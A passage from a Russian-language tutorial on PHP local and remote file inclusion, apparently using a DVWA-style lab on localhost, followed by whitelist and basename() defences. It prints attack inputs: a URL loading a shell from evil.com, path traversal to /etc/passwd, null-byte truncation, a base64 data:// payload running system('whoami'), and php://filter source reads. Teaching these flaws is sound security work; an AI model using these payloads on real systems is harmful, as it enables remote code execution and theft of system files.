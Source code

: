 * Путь проходит через каталог, в котором есть `file/index.php` и т.д.
* `../` возвращает нас на уровень выше.

---

## 🌐 RFI (Remote File Inclusion)

Если PHP настроен *небезопасно*:

```url
http://localhost:8081/vulnerabilities/fi/?page=http://evil.com/shell.txt
```

или даже:

```url
http://localhost:8081/vulnerabilities/fi/?page=http://192.168.0.1/status
```

Так можно:

* Обходить SSRF-защиту.
* Получать доступ к локальным сервисам.
* Вставлять вредоносные скрипты.

---

## 🧪 Обходы и payload'ы

```php
?page=../../../../etc/passwd
?page=../../../../etc/passwd%00       // null-byte truncation (до PHP 5.3)
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==   // PHP wrapper
?page=php://filter/convert.base64-encode/resource=index.php            // Чтение исходника
```

---

## 🛡️ Защита от File Inclusion

### ✅ Whitelist подход

```php
$pages = ['home', 'about', 'contact'];
if (in_array($_GET['page'], $pages)) {
    include("pages/" . $_GET['page'] . ".php");
}
```

### ✅ basename() и realpath()

```php
$page = basename($_GET['page']);
include("pages/" . $page);
```
